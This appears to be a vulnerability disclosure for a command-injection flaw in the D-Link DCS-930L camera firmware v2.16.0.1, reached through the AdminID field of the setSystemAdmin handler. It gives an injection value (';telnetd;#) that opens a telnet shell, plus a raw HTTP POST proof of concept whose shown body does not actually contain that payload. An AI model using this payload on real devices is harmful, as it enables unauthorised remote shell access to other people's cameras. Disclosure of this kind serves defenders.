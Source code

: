 **Affected Product**: D-Link DCS930L
**Affected Firmware Versions**:  2.16.0.1
**Vulnerability Type**: Command Execution

------
### **Vulnerability Description**

In the latest firmware (v2.16.0.1) for the D-Link DCS-930L, a command-injection vulnerability was discovered that allows remote attackers to execute arbitrary OS commands via crafted requests. 


---
### **Vulnerability Details**

![[20251025223957.png]]
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
We set `AdminID` as **';telnetd;#** , and the router will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=admin&AdminPassword=admin&ConfigSystemAdmin=Save
```

get a shell
![[d9e06aa9e39fba8455f803ea2e5a9422.png]]
